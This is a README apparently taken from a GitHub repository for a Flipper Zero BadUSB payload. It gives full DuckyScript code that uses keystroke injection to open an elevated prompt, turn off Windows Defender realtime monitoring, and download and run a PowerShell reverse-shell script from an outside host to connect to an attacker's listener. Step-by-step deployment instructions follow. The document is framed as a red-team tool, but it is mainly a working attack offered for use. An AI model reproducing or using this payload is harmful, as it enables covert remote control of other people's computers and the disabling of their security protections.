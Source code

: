 # Admin Reverse Shell Payload for Flipper Zero

Author: [SoggyCow](https://github.com/SoggyCow)  
License: MIT

## Overview

This script launches an elevated Command Prompt via Task Manager, disables Windows Defender Realtime Monitoring, and executes a hidden PowerShell reverse shell using `Invoke-ConPtyShell`. Designed for adversarial testing and red team operations, it leverages Flipper Zero’s **BadUSB** feature with DuckyScript for deployment via HID emulation.

## Features

- Opens an elevated Command Prompt through Task Manager.
- Disables Windows Defender Realtime Monitoring.
- Initiates a hidden PowerShell reverse shell.
- Modular design for tactical use.

## Configuration

Before deployment, replace the following placeholders in the payload:
- `[LISTENER_IP_ADDRESS]`: IP address of your Netcat listener.
- `[PORT]`: Port number for the reverse shell connection.

## Usage

### 1. Save the Payload
- Filename: `reverse_shell.txt`
- Format: UTF-8 plain text
- Example payload:
  ```ducky
  REM Title: Admin Reverse Shell Payload
  REM Author: SoggyCow
  REM Description: Opens elevated CMD via Task Manager, disables Windows Defender, and runs hidden PowerShell reverse shell
  DELAY 1000
  GUI t
  DELAY 500
  STRING taskmgr
  CTRL-SHIFT ENTER
  DELAY 1500
  STRING taskkill /IM taskmgr.exe && powershell -WindowStyle hidden Set-MpPreference -DisableRealtimeMonitoring $true; IEX(IWR 'https://ps1.soggycow.com/remote-access/Invoke-ConPtyShell.ps1' -UseBasicParsing); Invoke-ConPtyShell [LISTENER_IP_ADDRESS] [PORT]
  ENTER
  ```

### 2. Upload to Flipper
- Connect Flipper Zero via USB or Bluetooth.
- Use **qFlipper** or **Flipper Mobile App**.
- Transfer to: `SD Card/badusb/`.

### 3. Deploy on Target Machine
- On Flipper: Navigate to `Main Menu > Bad USB > reverse_shell.txt`.
- Ensure USB mode is active.
- Connect to the target Windows machine and press **Run**.

The script will:
- Open Task Manager (`Win + T`).
- Launch an elevated Command Prompt (`taskmgr` with `CTRL + SHIFT + ENTER`).
- Execute PowerShell commands to disable Windows Defender and start the reverse shell.

## Requirements

- **OS**: Windows 10/11
- **Flipper Zero**: BadUSB feature enabled
- **Internet Access**: Required to download `Invoke-ConPtyShell.ps1`
- **Admin Privileges**: Needed for Command Prompt elevation and Defender modifications
- **Netcat Listener**: Configured on `[LISTENER_IP_ADDRESS]` and `[PORT]`
- **Command Prompt/PowerShell**: Must support the specified commands

## Technical Notes

- **Elevation**: Triggers an elevated Command Prompt via Task Manager; may prompt UAC.
- **Windows Defender**: Disables Realtime Monitoring using `Set-MpPreference`.
- **Reverse Shell**: Utilizes `Invoke-ConPtyShell` for a stable, interactive shell.
- **Delays**: Uses `DELAY 1000`, `DELAY 500`, and `DELAY 1500`. Adjust for slower systems (e.g., `DELAY 700+`).
- **Testing**: Validate in a virtual machine or sandbox to ensure functionality.
- **Security**: Downloads a remote script from `https://ps1.soggycow.com/remote-access/Invoke-ConPtyShell.ps1`. Verify the source before deployment.

## Disclaimer

This script is for **educational and authorized red team purposes only**. Use only on systems you own or have explicit permission to access. The author, SoggyCow, is not liable for misuse, damage, or legal consequences.

## License

Licensed under the MIT License. See the `LICENSE` file for details.